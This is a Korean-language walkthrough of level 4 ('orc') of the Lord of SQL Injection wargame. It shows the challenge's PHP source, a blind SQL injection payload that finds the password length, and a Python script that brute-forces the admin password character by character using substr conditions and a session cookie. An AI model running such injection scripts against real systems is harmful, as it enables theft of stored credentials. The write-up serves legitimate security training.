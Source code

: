 # Lord of SQL Injection No.4 - Orc
## 문제 출제 의도
1. Blind SQL Injection의 이해 여부 확인.
2. Blind SQL Injection을 풀기 위해 코드 작성 능력 확인.
## 소스 코드  
~~~
<?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello admin</h2>"; 
    $_GET[pw] = addslashes($_GET[pw]); 
    $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
    highlight_file(__FILE__); 
?>
~~~
##소스코드 분석
+ addslashes 함수
    - addslashes함수는 다음과 같은 형식을 취한다.
    ~~~
    string addslashes ( string $str )
    ~~~
    - 특수문자로 부터 발생될 수 있는 에러를 피하기위해 특수문자 앞에 역슬래쉬를 붙여주는 역활을하는 함수.
    - 원래대로 돌려줄때는 백슬레쉬를 제거해주는 stripslashes() 함수를 쓴다.
    - addslashed함수에 대해 잘 모르겠다면 다음 사이트를 참고하자.  
    <a href="http://php.net/manual/kr/function.addslashes.php">PHP: addslashes - Manual</a>
##분석 결론
+ 금지 문자, 문자열
    - GET방식으로 입력받은 pw값에 prob _ . () 중 하나라도 있다면 "No Hack ~_~"이 출력되고 문제 풀이에 실패한다.
+ pw
    - pw에 특수문자를 입력해도 특수문자 처리가 되지 않는다.
+ 풀이 성공 조건
    - 입력한 pw와 받아온 실제 pw가 같아야 한다.
## 문제 해결
1. Blind SQL Injection
    - pw길이
        * 직접 패스워드를 알아야 함으로 우선 비밀번호가 몇 글자인지 알아야 한다.
        * 따라서 URL 뒤에 다음과 같은 문자열을 추가 하여 확인 가능하다.
        ~~~
        ?pw=' or id='admin' and length(pw)=8-- -
        ~~~
        * 이는 Hello admin을 출력하게 만들기 때문에 우리는 pw가 8자리인 것을 알 수 있다.
    - pw값
        * substr함수
            1. substr은 다음과 같은 형식을 취한다.
            ~~~
            substr(대상문자열,시작index,길이)
            ~~~
            2. substr은 문자열을 자르는 함수이다. 시작 인덱스에서 길이만큼 문자열을 자른다.
            3. 이를 통해 문자열을 잘라 문자를 하나씩 알아낸다.

        * 위 방법과 유사하게 한글자씩 알아내는 것은 코드를 이용하여 풀면 편하다.  
        * 다음과 같은 파이썬 코드를 이용하면 pw값을 쉽게 알 수 있다.
        ~~~
        import urllib.request
        from urllib.parse import quote
        key = ""
        for i in range(1, 9):
            for j in range(48, 127):
                url = "http://los.eagle-jump.org/orc_47190a4d33f675a601f8def32df2583a.php?pw="
                data="' or id='admin' and substr(pw,1,{})='{}'#".format(str(i), key + chr(j))
                print(data)

                data = quote(data)
                re = urllib.request.Request(url + data)
                re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36") 
                re.add_header("Cookie", "PHPSESSID=4p56htpvcookallo00ondblnf6")

                res = urllib.request.urlopen(re)

                if str(res.read()).find("Hello admin") != -1:
                    key += chr(j).lower()
                    print(key)
                    break
        print(key)
        ~~~
        * 위 코드를 실행하면 295d5844가 출력된다. 이를 pw값에 GET 방식으로 입력하면 해결된다.